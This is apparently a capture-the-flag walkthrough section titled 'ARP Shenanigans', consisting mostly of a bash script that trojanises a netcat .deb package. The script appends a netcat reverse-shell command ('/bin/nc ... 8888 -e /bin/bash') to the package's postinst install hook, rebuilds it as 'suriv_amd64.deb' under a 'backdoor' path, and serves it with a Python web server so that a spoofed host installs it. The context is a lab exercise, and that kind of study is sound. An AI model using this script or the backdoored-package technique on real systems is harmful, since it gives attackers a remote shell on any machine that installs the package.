 ## ARP Shenanigans

A simple bash script to automate the creation of the malicious Netcat `.deb` payload. Unpack the .deb file, add the reverse shell command to the `postinst` script, create the `.deb` package, and server it using a simple Python web server.

```bash linenums="1"
#!/usr/bin/bash
# Start at the right place
cd $HOME/debs/
# Unpack the deb package components
export MYDEB=netcat-traditional_1.10-41.1ubuntu1_amd64.deb
mkdir packing
cd packing
cp ../$MYDEB .
dpkg -x $MYDEB work
mkdir -p work/DEBIAN
ar -x $MYDEB
tar -xf control.tar.xz ./control
tar -xf control.tar.xz ./postinst
mv control work/DEBIAN/
mv postinst work/DEBIAN/
# Add the reverse shell command to postinst
export my_ip=`hostname -I`
echo "/bin/nc ${my_ip} 8888 -e /bin/bash" >> work/DEBIAN/postinst
# Build the package
dpkg-deb --build work/
# Create the path the rogue host is requesting
mkdir -p $HOME/web/pub/jfrost/backdoor/
# Move the malicious package file into place
mv work.deb $HOME/web/pub/jfrost/backdoor/suriv_amd64.deb
# Start the web server
cd $home/web/
python3 -m http.server 80
```